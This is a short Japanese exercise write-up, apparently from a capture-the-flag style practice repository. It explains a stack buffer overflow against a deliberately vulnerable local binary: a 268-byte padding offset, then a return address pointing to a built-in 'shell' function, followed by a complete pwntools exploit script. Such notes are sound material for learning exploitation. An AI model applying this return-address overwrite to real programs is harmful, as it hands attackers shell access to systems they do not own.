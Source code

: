 # overflow
バッファオーバーフローを利用して、プログラムに存在する関数を呼び出す。
ここではシェルを開く関数shellを用意した。
PIEが無効になっているのでアドレスは変動しないので、pwntoolsかreadelfで解析して直接アドレスを知ることができる。
gdbで入力した文字列がリターンアドレスを書き換える位置を特定する。
pattcとpattoが使える。
この場合268だった。
したがって、最初に268バイト分パディングして、次に呼び出したい関数のアドレスを指定すればいい。
引数が必要ならリターンアドレスの後に順に入れていけばよいはず。

```py
from pwn import *

trg = ELF('overflow')
retaddr = trg.symbols['shell']
offset = 268

payload = 'A' * offset
payload += p32(retaddr)

p = process('overflow')
p.sendline(payload)
p.interactive()
```
